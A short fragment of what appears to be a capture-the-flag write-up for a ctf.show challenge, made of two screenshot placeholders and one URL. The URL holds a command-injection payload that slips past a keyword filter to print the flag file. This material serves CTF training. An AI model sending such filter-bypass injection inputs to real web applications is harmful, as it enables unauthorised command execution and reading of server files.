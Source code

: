 <figure><img src="../.gitbook/assets/image (21) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```php
http://b631725c-44f2-4cb6-a9e6-fc6d6fdf361a.challenge.ctf.show/?c=nl<>fla\g.php||
```

<figure><img src="../.gitbook/assets/image (22) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
